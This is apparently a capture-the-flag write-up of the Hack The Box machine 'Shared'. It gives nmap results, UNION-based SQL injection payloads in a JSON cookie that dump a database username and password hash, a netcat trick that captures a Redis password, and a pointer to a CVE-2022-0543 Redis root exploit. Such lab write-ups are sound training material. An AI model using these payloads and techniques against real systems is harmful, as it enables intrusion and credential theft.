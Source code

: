 ```yaml
---
title: "HTB - Shared"
date: 2023-03-11T18:44:08+01:00
draft: false
tags: [HTB, Medium, Linux, SQL, SQL_injection, Redis]
---
```


## Foothold
### Nmap
```
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)  
| ssh-hostkey:  
| 3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)  
| 256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)  
|_ 256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)  
80/tcp open http nginx 1.18.0  
|_http-server-header: nginx/1.18.0  
|_http-title: Did not follow redirect to [https://shared.htb/](https://shared.htb/)  
| http-robots.txt: 81 disallowed entries (15 shown)  
| /*?order= /*?tag= /*?id_currency= /*?search_query=  
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=  a
| /*&search_query= /*&back= /*&n= /*controller=addresses  
|_/*controller=address /*controller=authentication  
443/tcp open ssl/http nginx 1.18.0  
|_ssl-date: TLS randomness does not represent time  
|_http-server-header: nginx/1.18.0  
| tls-nextprotoneg:  
| h2  
|_ http/1.1  
| tls-alpn:  
| h2  
|_ http/1.1  
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US  
| Not valid before: 2022-03-20T13:37:14  
|_Not valid after: 2042-03-15T13:37:14  
|_http-trane-info: Problem with XML parsing of /evox/about  
| http-robots.txt: 81 disallowed entries (15 shown)  
| /*?order= /*?tag= /*?id_currency= /*?search_query=  
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=  
| /*&search_query= /*&back= /*&n= /*controller=addresses  
|_/*controller=address /*controller=authentication  
| http-title: Shared Shop  
|_Requested resource was [https://shared.htb/index.php](https://shared.htb/index.php)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Basic https website, nothing out of the ordinary on the first sight.

Website uses presta shop, check for vuln. An SQL injection is possible one of the query parameters. However, this is hardly exploitable.

Upon browsing the site and trying to buy some stuff. We are redirected on checkout to another website: `checkout.shared.htb`.

## User
After some digging using burp. We can see that not only the website sets some custom cookies in JSON format but also that the content of the cookie vulnerable to  SQL injection.

We can confirm that by changing the value of the cookie from `{"XHFG":"1"}` to `{"XH" + "FG" : "1"}` and the website still works properly.

From there it's guessing and sqlmap time...
After some time, we can see that the first parameter is UNION vulnerable. We can use it to disclose informations about the db `checkout` using:
```
{"AAAAA' and 0=1 union select 1,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='checkout'-- -":"1"}
	> user	
{"AAAAA' and 0=1 union select 1, username, password from checkout.user-- -":"1"}
	> james_mason
{"AAAAA' and 0=1 union select 1, password, username from checkout.user-- -":"1"}
	> fc895d4eddc2fc12f995e18c865cf273
```

## LPE
linPEAS tells us that the file `redis_connector_dev` is unsual, doesn't belong here.
the file is a compiled go executable that connects to a local redis instance on port 6379.

Trying to RE using cutter => No use, to complicated. There has to be a simpler way.
Lets try to emulate a redis db by listening to 6379 on localhost and run the app.

```
> nc -lnvp 6379
> ./redis_connector_dev # from another shell

listening on [any] 6379 ...  
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42250  
*2  
$4  
auth  
$16  
F2WHqJUz2WEz=Gqq
```
Cool, we get the redis password. 

A simple check with `ps -ef |grep redis` can show us that redis is run as root. Let's try to abuse it.
> Thx hacktriks 
> https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

One cool trick that might work would be the [LUA sanbox bypass](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass), as it is the CVE-2022-0543 and the version of Redis (6.0.15) is vulnerable. 

Using this wonderful tool: https://github.com/aodsec/CVE-2022-0543 we get an easy root !

AAAAAAAAAAAAAAAA